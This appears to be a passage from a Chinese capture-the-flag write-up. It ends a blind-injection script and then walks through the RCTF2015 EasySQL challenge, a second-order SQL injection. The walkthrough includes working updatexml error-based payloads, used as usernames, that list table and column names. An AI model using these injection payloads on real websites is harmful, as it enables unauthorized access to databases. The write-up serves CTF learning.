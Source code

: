 ```python
            high=mid
        mid=(low+high)//2
    if(mid==32|mid==128):
        break
    flag+=chr(mid)
    print(a+flag)
```

<font color='red'>**完全不需要异或**</font>



​                                                                              <font color='red'>**多思考，不要只跟着WP的思路走**</font>

### [RCTF2015]EasySQL

注册一个含危险字符的账号`1'#\`

进去更改密码报错

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1'#\" and pwd='c4ca4238a0b923820dcc509a6f75849b'' at line 1
```

可以猜出sql语句大概是

```sql
select * from user where username=" 1'#\ " and password=' c4ca4238a0b923820dcc509a6f75849b '
```

很明显是二次注入了，有报错，可以直接报错注入了

注册一个**username**为

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#
```

![image-20221223122833275](challenge.assets/image-20221223122833275.png)

再注册

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))),1))#
```
